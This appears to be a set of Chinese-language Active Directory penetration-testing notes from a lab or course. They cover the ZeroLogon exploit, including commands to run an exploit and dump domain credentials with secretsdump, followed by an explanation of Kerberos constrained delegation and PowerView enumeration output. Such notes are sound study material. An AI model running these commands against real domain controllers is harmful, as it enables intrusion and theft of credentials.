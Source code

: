 ## ZeroLogon
- [檢測用程式](https://github.com/SecuraBV/CVE-2020-1472)
```
./zerologon_tester.py HYDRA-DC 192.168.126.129
```
- [攻擊用程](https://github.com/dirkjanm/CVE-2020-1472)  
```
python cve-2020-1472-exploit.py HYDRA-DC 192.168.126.129 
```
- 打進去就不用密碼了
```
python secretsdump.py -just-dc MARVEL/HYDRA-DC\$@192.168.126.129
```
##  Kerberos Resourced Based Constrained Delegation 
>[!NOTE]
>在 Active Directory 中明確設定「某個服務帳號只能代表用戶，去存取**特定的服務/主機**」。管理員在 AD 使用者/電腦屬性裡，把某台伺服器（或服務帳號）的「委派」權限限制到指定的 SPN（Service Principal Name）。
>當使用者登入這台伺服器時，KDC 不會把完整的 TGT 下發給伺服器，而是允許伺服器使用 **Service for User to Proxy (S4U2Proxy)** 與 **Service for User to Self (S4U2Self)** 機制，去請 KDC 發票給指定的服務。

>[!TIP]
>使用者登入了一個前端服務 (Service A)，希望它能代替自己去存取另一個後端服務 (Service B)。
>- 用瀏覽器登入一台 Web 伺服器 (IIS)。
>- Web 伺服器要去 SQL Server 抓資料。
>- IIS 希望用**你的身份**去存取 SQL，而不是用它自己的帳號。
>- 只允許前端服務（例如 IIS 的服務帳號）代表使用者去存取「指定的服務 (Service Principal Names, SPN)」。
### Constrained Delegation技術原理
- 管理員在 AD 中設定一個帳號（通常是 Web/IIS 的 service account）：「此帳號可以代替使用者存取 `MSSQLSvc/sql01.contoso.local`。」
- AD 會在該服務帳號物件上寫入 **`msDS-AllowedToDelegateTo` 屬性**，裡面列出允許委派的 SPN。
- 使用流程：
    1. 使用者 → IIS：正常 Kerberos 登入，拿到 TGS。
    2. IIS 用使用者的 TGS 去向 KDC 請一張**S4U2Proxy 票**，但只能給 `msDS-AllowedToDelegateTo` 裡允許的服務。
    3. KDC 核對設定後簽發 TGS。
    4. IIS 拿這張 TGS 去 SQL Server 存取資料。
> 核心重點：前端服務只拿得到「去特定後端服務」的票，不能亂用。
### Constrained Delegation列舉
``` powershell
Get-DomainUser -TrustedToAuth
```
```
[snip]
logoncount : 2
badpasswordtime : 12/31/1600 4:00:00 PM
distinguishedname : CN=web
svc,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
objectclass : {top, person, organizationalPerson, user}
displayname : web svc
lastlogontimestamp : 11/14/2022 4:45:59 AM
userprincipalname : websvc    
whencreated : 11/14/2022 12:42:13 PM
samaccountname : websvc
codepage : 0
samaccounttype : USER_OBJECT
accountexpires : NEVER
countrycode : 0
whenchanged : 11/14/2022 12:45:59 PM
instancetype : 4
usncreated : 38071
objectguid : b7ab147c-f929-4ad2-82c9-7e1b656492fe
sn : svc
lastlogoff : 12/31/1600 4:00:00 PM
msds-allowedtodelegateto : {CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL,CIFS/dcorp-mssql}
```